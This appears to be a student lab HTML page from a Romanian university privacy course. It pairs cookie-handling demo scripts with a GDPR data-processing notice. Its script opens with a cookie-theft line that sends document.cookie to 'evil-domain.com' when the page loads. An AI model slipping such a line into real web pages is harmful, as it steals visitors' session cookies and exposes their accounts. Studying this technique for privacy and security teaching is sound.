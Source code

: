 <script> 
  (new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
document.cookie = "name=oeschger";
document.cookie = "favorite_food=tripe";
function alertCookie() {
  alert(document.cookie);
} 
document.cookie = "test1=HELLO World";
document.cookie = "test2=Lab MDCP";

const cookieValue = document.cookie
  .split('; ')
  .find(row => row.startsWith('test2='))
  .split('=')[1];

function alertCookieValue() {
  alert(cookieValue);
}
function doOnce() {
  if (!document.cookie.split('; ').find(row => row.startsWith('doSomethingOnlyOnce'))) {
    alert("Do something here!");
    document.cookie = "doSomethingOnlyOnce=true; expires=Fri, 31 Dec 9999 23:59:59 GMT";
  }
}
function resetOnce() {
  document.cookie = "doSomethingOnlyOnce=; expires=Thu, 01 Jan 1970 00:00:00 GMT";
}

//ES5

if (document.cookie.split(';').some(function(item) {
    return item.indexOf('reader=1') >= 0
})) {
    console.log('The cookie "reader" has "1" for value')
}

//ES2016

if (document.cookie.split(';').some((item) => item.includes('reader=1'))) {
    console.log('The cookie "reader" has "1" for value')
}
</script>
  <body>
  Bun venit pe pagina cu jucarii!<br>
  <button onclick="alertCookie()">Show cookies</button><br>
  <button onclick="alertCookieValue()">Show cookie value</button><br>
  <button onclick="doOnce()">Only do something once</button><br>
  <button onclick="resetOnce()">Reset only one cookie</button><br>
Negru Denisa
</body>

  <a href="https://didatec-my.sharepoint.com/:w:/r/personal/negru_va_denisa_utcluj_didatec_ro/_layouts/15/Doc.aspx?sourcedoc=%7B2E948193-BC37-4C82-A87C-E6A6A4840894%7D&file=Task2.docx&action=edit&mobileredirect=true&wdNewAndOpenCt=1622837745557&ct=1622837745557&wdPreviousSession=e200e115-397c-43f1-b585-e3eb3aa0a9c9&wdOrigin=OFFICECOM-WEB.MAIN.UPLOAD&cid=ae19853d-df19-4274-98ca-907ebdf4f284">Click to see DPIA </a>

<p>
  Universitatea Tehnică Cluj-Napoca, cu sediul in Cluj-Napoca, pe Strada Memorandumului 28, 400114, reprezentată legal prin Rector, Prof. univ. dr. ing. Vasile ŢOPA vă prelucrează datele cu caracter personal.
</p>
<p>
În art. 4 pct. 1 din Regulamentul nr. 679/2016 se găsește definiția datelor cu caracter personal care stipulează orice informații privind o persoană fizică identificată sau identificabilă („persoana vizată”); o persoană fizică identificabilă este o persoană care poate fi identificată, direct sau indirect, în special prin referire la un anumit element de identificare, cum ar fi: 
-	nume, prenume;
-	CNP;
-	Adresă;
-	E-mail;
-	IBAN;
-	Adeverință medicală.
</p>
<p>
Vă informăm că datorită temeiului legal aplicabil în România și a relației contractuale în care vă aflați cu Universitatea Tehnică din Cluj-Napoca, aceasta procesează pe perioada relațiilor contractuale următoarele categorii de informații personale care vă aparțin:
</p>
<p>
- date de identificare (certificat de naștere, carte de identitate, etc.);
</p>
<p>
- date financiare (număr de cont, venituri realizate la nivelul instituției, situații financiare personale, etc.); 
</p>
<p>
- caracteristici personale (vârsta, locul nașterii, naționalitate, stare civilă, etc.) necesare pentru stabilirea de drepturi cuvenite;  opinii privind starea de sănătate, componența familiei (numărul de copii și date de identificare a acestora, stare civilă, etc. în baza cărora se fac justificările de calcul a unor drepturi cuvenite sau se stabilesc alte drepturi conform legilor și normativelor aplicabile pentru cei care optează sau solicită aceste drepturi); informații privind parcursul academic, calificările deținute, istoricul profesional, calitatea de membru în organizații profesionale, publicații, date de contact necesare pentru derularea curentă a activității educaționale și de cercetare specifice universității.
Menționăm ca reținerea datelor cu caracter personal în instituție are rolul de a putea furniza către titularul datelor, la cerere, informații privind perioada de școlarizare petrecută în cadrul instituției și după finalizarea acestei perioade de instruire și se supune suplimentar temeiului legal aplicabil în România furnizat de OM Nr. 657 / 24.11.2014 privind regimul actelor de studii în sistemul de învățământ superior cu completările ulterioare.
Datele deținute la nivelul sistemelor informatice din Universitatea Tehnică din Cluj-Napoca nu sunt comunicate unor terțe părți decât în cazul în care există solicitări venite conform unui temei legal furnizat de instituții ale statului român sau pentru îndeplinirea obligațiilor contractuale dintre dumneavoastră ca student / cursant și Universitatea Tehnică din Cluj-Napoca ca furnizor de servicii educaționale.
</p>
<p>
Conform Regulamentului UE nr. 679/2016 persoanele vizate beneficiază de următoarele drepturi:
</p>
<p>
•	dreptul de acces cu titlul gratuit la datele personale prelucrate de universitate;
</p>
<p>
•	dreptul la rectificare şi dreptul la ştergerea datelor – fără a contraveni obligaţiilor legale ale universităţii;
</p>
<p>
•	dreptul de restricţionare a prelucrării datelor – fără a contraveni obligaţiilor legale ale universităţii;
</p>
<p>
•	dreptul la portabilitatea datelor;
</p>
<p>
•	dreptul de a retrage oricând consimţământul în cazul în care prelucrarea se bazează pe consimţământ.
</p>
<p>
Perioada de stocare şi prelucrare a datelor cu caracter personal este determinată de prevederile legale în vigoare. La sfârşitul perioadei de stocare şi prelucrare a datelor cu caracter personal, conform raporturilor juridice sau scopurilor precizate în declarațiile de consimțământ completate de persoanele vizate, datele cu caracter personal vor fi şterse din procesele curente şi vor fi arhivate conform legislaţiei naţionale.
</p>
<p>
		    În cazul mobilității la o universitate din UK, instituția de primire trebuie să elibereze studentului foaia matricolă e confirmă parcurgerea programului de studii precum și rezultatele acestuia. Totodată, instituția de trimitere trebuie să acorde recunoaștere academică tuturor activităților finalizate în timpul mobilității conform contractului de studiu, prin acordarea creditelor transferabile sau a unui sistem echivalent.
</p>
<p>
		    Datorită faptului că perioada de mobilitate va fi inclusă și în suplimentul de diplomă, Universitatea Tehnică va avea dreptul să acceseze informațiile despre student din perioada mobilității.   
  
  </p>
  

